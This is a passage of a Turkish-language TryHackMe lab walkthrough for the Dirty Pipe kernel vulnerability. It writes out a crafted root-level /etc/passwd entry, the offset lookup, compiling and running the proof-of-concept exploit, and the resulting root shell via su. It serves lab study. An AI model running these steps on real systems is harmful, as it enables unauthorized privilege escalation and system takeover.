 ```bash
'muiri:aGI4WgHe4z1sE:0:0::/root:/bin/bash  # bu şekilde komutu çalıştırıyoruz ve daha sonra tırnak işareti koyuyoruz.
>'
```

Şimdi eksik olan son parça: **Ofset**. Yani dosya içinde bu içeriği yazmaya nereden başlayacağımız. Bu açık, dosya sonuna ekleme yapmamıza izin vermiyor, bu yüzden halihazırda var olan bir kullanıcıyı seçip **onun üzerine** yazmamız gerekiyor.

Bu noktada, sistemde çok sık kullanılmayan bir kullanıcıyı seçmek mantıklı. Burada gözümüze **games** kullanıcısı takılıyor. Şimdi bu hesabın `/etc/passwd` dosyasındaki başlangıç noktasını (**ofsetini**) bulmak için şu komutu kullanıyoruz:

```bash
tryhackme@dirty-pipe:~$ grep -b "games" /etc/passwd
189:games:x:5:60:games:/usr/games:/usr/sbin/nologin
```

Yani **games** kullanıcısının girdisi, dosyada **189. bayttan** başlıyor. Artık elimizde gerekli her şey var:

  - Dosya yolu

  - Yazılacak içerik

  - Yazmanın başlayacağı ofset


İstismarı gerçekleştirmek için hazırız.

İlk olarak, istismar kodunu derlememiz gerekiyor. Bunun için aşağıdaki adımları izliyoruz:

```bash
tryhackme@dirty-pipe:~$ cd Exploit/PoC/
tryhackme@dirty-pipe:~/Exploit/PoC$ gcc poc.c -o exploit
tryhackme@dirty-pipe:~/Exploit/PoC$ ls
exploit  poc.c
```

Bu komutlarla önce istismar kodunun bulunduğu dizine geçiyoruz, ardından **gcc** ile **poc.c** dosyasını derleyip exploit isimli çalıştırılabilir bir dosya oluşturuyoruz. Son olarak **ls** komutuyla dosyanın başarıyla oluştuğunu kontrol ediyoruz.


<blockquote class="prompt-danger"><p>Her ihtimale karşı <b>passwd</b> dosyasının yedeğini almanız iyi olur.</p></blockquote>


Ve artık istismarı çalıştırmaya hazırız. Komutumuz şu şekilde olmalı:
```bash
./exploit /etc/passwd 189 'muiri:aGI4WgHe4z1sE:0:0::/root:/bin/bash
```

Son yapmamız gereken işem ise `su` komutu ile `muiri` kullanıcısına geçiş yapmak olacaktır.
```bash
tryhackme@dirty-pipe:~/Exploit/PoC$ su muiri
Password:
root@dirty-pipe:/home/tryhackme/Exploit/PoC#
```
